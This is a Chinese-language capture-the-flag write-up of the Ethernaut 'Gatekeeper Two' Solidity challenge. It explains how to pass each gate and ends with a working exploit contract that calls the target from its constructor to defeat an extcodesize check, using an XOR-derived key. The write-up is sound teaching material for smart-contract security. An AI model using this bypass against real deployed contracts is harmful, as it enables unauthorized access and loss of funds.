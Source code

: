 ## Level_14.Gatekeeper Two

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### 分析

#### 第一道关卡

和上一个一样的，通过增加一个合约作为代理绕过；



#### 第二道关卡

` extcodesize() `：获得账户中代码的size；

` caller() `：调用者的地址

所以合约中的` x `为我们攻击合约的代码长度；

但要使其为0，得是个账户地址，而不能是一个合约地址；

但是，从[stackexchange](https://ethereum.stackexchange.com/questions/15641/how-does-a-contract-find-out-if-another-address-is-a-contract/15642#15642)这个帖子中可以知道，在构造函数中运行，返回的是0；



#### 第三道关卡

```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max)

type(uint64).max) = 0xFFFFFFFFFFFFFFFF;

// 异或
uint64(_gateKey) = 0xFFFFFFFFFFFFFFFF ^ uint64(bytes8(keccak256(abi.encodePacked(msg.sender))));
```

此时的` msg.sender `为攻击合约地址；

计算方法：` bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ 0xFFFFFFFFFFFFFFFF) `；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    constructor(address addr){
        GatekeeperTwo gt = GatekeeperTwo(addr);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ 0xFFFFFFFFFFFFFFFF);
        require(gt.enter(key), "failed");
    }
}
```

